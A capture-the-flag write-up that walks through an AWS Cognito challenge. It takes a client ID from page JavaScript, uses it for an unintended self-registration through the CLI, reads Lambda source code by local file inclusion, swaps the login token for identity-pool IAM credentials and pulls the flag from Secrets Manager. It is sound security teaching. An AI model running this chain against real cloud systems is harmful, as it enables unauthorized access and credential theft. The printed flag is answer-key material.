

# Mode Incognito

## Description

<small>Author: @carlopolop#3938</small><br><br>Fly under the radar, move in stealth, and capture that flag. <br><br> 

[https://ctfincognito.s3.amazonaws.com/index.html](https://ctfincognito.s3.amazonaws.com/index.html)


## Solution

This challenge was rather lengthy and required some understanding of how AWS Cognito works. The entire purpose is to enable federated authentication of AWS services. For example, being able to build a login service for your application while allowing users to log in using a Microsoft, Google, or Facebook account. It can also just be used simply for normal username and password authentication.

In Cognito, there are User Pools and User Identity Pools which are used to manage the identities of people who can log in to your application.

Viewing the website at the link provided, we see just a simple login page. One might want to try some sort of SQL injection, etc to bypass it but none of those will work.



Taking a look at the source of the page, we can see the javascript which performs the authentication:

```js
function login() {
        AWS.config.update({region : "us-east-1"});

        console.log("Executed")

        const payload = {
            AuthFlow: "USER_PASSWORD_AUTH",
            ClientId: "11rcg1djsb6ka6ni21aml29kue",
            AuthParameters : {
                USERNAME: document.getElementById('Uname').value,
                PASSWORD: document.getElementById('Pass').value
            }
        }

        var cognito = new AWS.CognitoIdentityServiceProvider();
        cognito.initiateAuth(payload, function(err,data) {
            if (err) {
                alert("Error: " + err);
            }
            else {
                id_token = data.AuthenticationResult.IdToken;
                url = 'https://rse0l701y4.execute-api.us-east-1.amazonaws.com/prod/lambda_function?config=/tmp/lambda_configuration.txt'
                fetch(url, { 
                    method: 'get', 
                    headers: new Headers({
                        'Authorization': 'Bearer '+id_token, 
                    })
                })
                .then((response) => response.text())
                .then((data) => {
                    document.getElementById('read_config').innerHTML = "Config:<br>"+data;
                });

                alert("Success!");
            }
        })
    }
```

It takes the username and password entered and constructs a new **CognitoIdentityServiceProvider** object, then calls **initiateAuth()**. 
If the authentication is successful, then it will return a JWT token which the script then passes as it calls a lambda function which we assume will give us the flag.

So now we know we can call on Cognito so log in but there seems to be no link to register for the site....or is there?

In real-life situations, many times cloud developers will not realize that just because they aren't using a functionality it doesn't mean it isn't accessible by some other means. In this case, we can actually register for this site ourselves by accessing the Cognito API directly.

Since the client ID is in the Javascript above, we can call on the AWS CLI like this:

```bash
aws cognito-idp sign-up --client-id 11rcg1djsb6ka6ni21aml29kue --username my_user --password Password1! --user-attributes '{"Name":"email","Value":"<my email>"}'
```

And then we get back the response:

```json
{
    "UserConfirmed": false,
    "CodeDeliveryDetails": {
        "Destination": "******@******",
        "DeliveryMedium": "EMAIL",
        "AttributeName": "email"
    },
    "UserSub": "727828bc-b68d-4384-9444-4e04b84484b3"
}
```

This indicates that a confirmation code has been sent to my email to confirm my user account. After retrieving it, I can call on the CLI again to confirm my signup with:

```bash
aws cognito-idp confirm-sign-up --confirmation-code 509769 --client-id 11rcg1djsb6ka6ni21aml29kue --username my_user
```

This function doesn't return anything on success so it may seem like it didn't do anything. However, if we enter the newly created username and password into the login page, we see a success message and then the config information is posted.


From here, I thought the point was to try to invoke that Lambda function somehow. However, we need to obtain actual AWS credentials in order to do that.

Looking at the function that is called using the JWT token from the login, we see the URL is:

```
https://rse0l701y4.execute-api.us-east-1.amazonaws.com/prod/lambda_function?config=/tmp/lambda_configuration.txt
```

Note that the function is pulling a specific file in the config parameter which means that it is possibly vulnerable to local file inclusion (LFI). So what we really want to do is actually try to recover the code behind this lambda function.

In order to do that we can resend the request but modify it to pull the path where Lambda functions store the python code behind it:

```/var/task/lambda_function.py```

And we get back the following response:

```python
import json
import boto3
from botocore.exceptions import ClientError

def lambda_handler(event, context):
    try:
        body = "Error"
        headers = {"Access-Control-Allow-Origin": "*"}
        config = event["queryStringParameters"]['config']

        with open("/tmp/lambda_configuration.txt", "w") as f:
            f.write("arn:aws:lambda:us-east-1:947247140022:function:getSecretFlag")
    
    
        with open(config, "r") as f:
            body = f.read()
    
    except Exception as e:
        body = f"Error: {e}"
    
    finally:
        return {
            'statusCode': 200,
            'headers': headers,
            'body': body
        }


def get_secret():
    """
    Fix this function to get the secret.
    We should try to use the user IAM permissions from cognito
    identity pool 'us-east-1:176cdd96-9db6-437f-9a56-124c2e9de439'
    to access it instead of this Lambda IAM role as it cannot access the secret
    """

    secret_name = "ThisIsFinalFlagFinally"
    region_name = "us-east-1"

    # Create a Secrets Manager client
    session = boto3.session.Session()
    client = session.client(
        service_name='secretsmanager',
        region_name=region_name
    )
```

So now all the pieces are starting to fall into place. Note that there is mention of a specific identity pool that we can use to obtain IAM permissions to access the flag. So now we have to go through the process of exchanging what we have so far.

In order to get the credentials, we also need to know our IdentityId. This can be recovered by looking at the contents of the token that was used to authenticate with the Lambda function.

Dropping it in a parser like JWT.io, there is an issuer claim with the user pool that issued the token:

```https://cognito-idp.us-east-1.amazonaws.com/us-east-1_4rMMxVEiL```


So now we can turn around and use the CLI commands again to request the ID information about the user associated with the token.

```bash
aws cognito-identity get-id --identity-pool-id us-east-1:176cdd96-9db6-437f-9a56-124c2e9de439 --logins '{"cognito-idp.us-east-1.amazonaws.com/us-east-1_4rMMxVEiL":"<token>"}'
```

This returns the IdentityId for our user we created:

```json
{
    "IdentityId": "us-east-1:d3724e46-3d30-4188-aff2-03f6ceb69a21"
}
```

Now we finally have everything we need to exchange for actual IAM credentials to access other AWS resources using ```get-credentials-for-identity```!

```bash
aws cognito-identity get-credentials-for-identity --identity-id us-east-1:d3724e46-3d30-4188-aff2-03f6ceb69a21 --logins '{"cognito-idp.us-east-1.amazonaws.com/us-east-1_4rMMxVEiL":"<token>"}'
```

This returns the credentials that we need to finally access the flag:

```json
{
    "IdentityId": "us-east-1:d3724e46-3d30-4188-aff2-03f6ceb69a21",
    "Credentials": {
        "AccessKeyId": "ASIA5ZD***********",
        "SecretKey": "P+dfQfI69MLm2******************",
        "SessionToken": "IQoJb3JpZ2luX2VjE****************************************",
        "Expiration": 1671420202.0
    }
}
```

From here you can either run ```aws config``` to add the credentials to your local config, or I just exported them as environment variables:

```bash
export AWS_ACCESS_KEY_ID=ASIA5ZD***********
export AWS_SECRET_ACCESS_KEY=P+dfQfI69MLm2******************
export AWS_SESSION_TOKEN=IQoJb3JpZ2luX2VjE*********************************
export AWS_DEFAULT_REGION=us-east-1
```

Then we can call the secrets manager API with:

```bash
aws secretsmanager get-secret-value --secret-id ThisIsFinalFlagFinally
```

And it returns:

```json
{
    "ARN": "arn:aws:secretsmanager:us-east-1:947247140022:secret:ThisIsFinalFlagFinally-WfeESW",
    "Name": "ThisIsFinalFlagFinally",
    "VersionId": "d0336f65-54f0-4611-8872-e679b1dc1de2",
    "SecretString": "{\"Flag\":\"flag{25d45a3aa9965cc85289e3fcf059cced}\"}",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": 1670250863.101
}
```

**Flag: flag{25d45a3aa9965cc85289e3fcf059cced}**


